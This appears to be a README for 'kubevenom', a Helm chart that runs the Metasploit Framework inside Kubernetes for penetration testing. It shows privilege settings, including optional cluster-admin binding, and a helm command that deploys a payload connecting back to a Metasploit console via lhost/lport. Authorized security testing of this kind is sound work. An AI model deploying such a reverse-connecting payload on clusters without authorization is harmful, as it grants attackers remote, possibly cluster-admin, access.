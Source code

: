 
# Running Metasploit Framework Against Kubernetes

Running metasploit framework against Kubernetes enables pentesters to security test cluster components such as the API Server, as well as internal application components or micro-services.

The installation chart (kubevenom) also offers to install & run a metasploit payload, that connects back to metasploit console.
The payload can be deployed with different priviliges and permissions with respect to Kubernetes node hosting metasploit payload, as well as Kubernetes API server itself - see 'priviliges' section under values.yaml

```yaml
priviliges:
  # Disable Kubernetes API Server Access - even to the discovery APIs
  useServiceAccount: true
  # Run metasploit framework as Kubernetes cluster admin (useServiceAccount must be true for this setting to be effective)
  bindClusterRole: "" #cluster-admin 

  #
  # Priviliges related to node hosting metasploit Pod
  # See: https://kubernetes.io/docs/tasks/configure-pod-container/security-context/
  podSecurityContext: {}
    # fsGroup: 2000
  # Metasploit container security context
  securityContext: {}
    #allowPrivilegeEscalation: false
    # capabilities:
    #   add:
    #   - NET_BIND_SERVICE
    #   drop:
    #   - all
    #runAsNonRoot: true
    #runAsUser: 1000
    #runAsGroup: 1000
```

# Installation

1. Make sure helm (version 3 or above) is [installed](https://helm.sh/docs/intro/install/)
2. Make sure you have an available Kubernetes cluster to deploy metasploit. You can install a local Kubernetes cluster using [KIND](https://kind.sigs.k8s.io/docs/user/quick-start/#installation)
    > You can create local KIND cluster by running  `make create-kind-cluster`

3. Install kubevenom helm chart by running:

```sh
export MSF_PORT="<routeable port from inside cluster>"
export MSF_IPADDRESS="<routeable ip from inside cluster>"
helm upgrade --create-namespace -i -n metasploit kubevenom ./kubevenom --set lport=$MSF_PORT --set lhost=$MSF_IPADDRESS
```
